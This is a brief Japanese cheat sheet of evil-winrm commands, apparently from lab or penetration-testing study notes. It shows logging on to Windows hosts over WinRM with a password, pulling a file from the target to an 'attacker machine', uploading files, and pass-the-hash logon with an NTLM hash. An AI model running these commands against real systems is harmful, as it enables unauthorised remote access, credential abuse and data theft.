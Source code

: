 # evil-winrm
[Documentation](https://github.com/Hackplayers/evil-winrm)

## コマンド集
1. 192.のIPにdaveadminユーザでhogeというパスワードを使用してログオンする
```
evil-winrm -i 192.168.50.220 -u daveadmin -p "hoge"
```

2. リモートセッション上で、ファイルをAttacker Machineにダウンロードする。
```
download ./hoge.txt
```

3. リモートセッション上で、Attacker Machine上のファイルをターゲットのパスにアップロードする。
```
upload <path to upload file in attackermachine>
```

4. Pass the Hashでターゲットにログオンする。ハッシュはNTLMで取得できる。
```
evil-winrm -i 10.10.127.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
```